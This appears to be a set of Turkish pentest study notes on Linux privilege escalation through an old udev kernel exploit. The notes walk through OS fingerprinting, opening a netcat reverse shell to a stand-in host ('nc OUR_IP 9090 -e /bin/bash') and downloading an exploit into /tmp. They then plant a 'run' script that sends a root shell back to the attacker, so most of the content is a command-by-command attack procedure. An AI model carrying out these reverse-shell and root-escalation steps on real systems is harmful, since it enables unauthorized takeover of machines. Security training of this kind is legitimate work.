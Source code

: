 - Bir işletim sisteminde iki şekilde hak yükseltilir:
>1) Yanlış yapılandırılmış bir eksiklik bulmamız gerekir.
>2) İşletim sistemininin kernel'inde bulunan bir zafiyet kullanmamız gerekir.

		B> uname -a (Kernel bilgisi)
		B> cat /etc/issue (İşletim sistemi bilgisi)
		B> cat /etc/lsb-release (İşletim sistemi bilgisi -garanti-)

- Bulduğumuz hedefte exploit'in derlenmesi için (eğer exploit C benzeri derlenen bir dil ile yazılmışsa) compiler olması gerekir ve exploiti hedef makinedeki compiler ile aynı versiyondaki bir compiler ile compile etmemiz gerekir.

		B> ubuntu 8.04 kernel 2.6 site:exploit-db.com

- UDEV, *nix tabanlı işletim sistemlerinde driver menajeridir.

		B> udevadm --version (Hedefin udev versiyonunu öğrenmek için)

**- Kendi interaktif bağlantımızı elde etmek ve aradan cmd.jsp'yi çıkarmak için aşağıdaki işlemleri yaparız:**

    => nc -lvp 9090 -e /bin/bash
    B> whereis nc	(/bin/nc.traditional)
    B> nc OUR_IP 9090 -e /bin/bash

- nc kullanırken -e parametresi ile ilk gelen bağlantıya /bin/bash'i veririz. Ancak bunu kullanabilmemiz için nc.traditional versiyonunun hedefte ve kendimizde yüklü olması lazım.

**- Kendi interaktif bağlantımızı elde ettikten sonra:**

	S> gcc --version	(Hedefte gcc var!)
	S> cd /tmp
	S> wget EXPLOIT		(Eğer hata verirse SSL sertifikalarını kontrol etmeden indirmesi için aşağıdaki komutu kullanırız)
	S> wget EXPLOIT --no-check-certificate

- Exploitin açıklamasından nasıl kullanıldığına bakıyoruz. "run" adında bir shell script oluşturuyoruz. Çünkü kullanacağımız exploit run dosyasını root yetkisinde çalıştıracak.

		S> echo "!/bin/bash" > run
		S> echo "nc <our_ip> <our_port> -e /bin/bash" >> run
		S> gcc kamp.c -o bga

- Exploitin bizden ayrıca istediği bir argüman var.

		S> ps aux | grep udex

- udev PID -1 i argüman olarak kullanıyoruz.

		=> nc -lvp <our_port>
		S> ./bga 2692
		SS> whoami	(ROOT)

- Bu işlemleri otomatize etmek için Metasploit-Framework kullanırız.

- dissassembler kullanarak exploit içerisindeki shellcode'ları inceleyebiliriz.

## MSF Modüllerleri
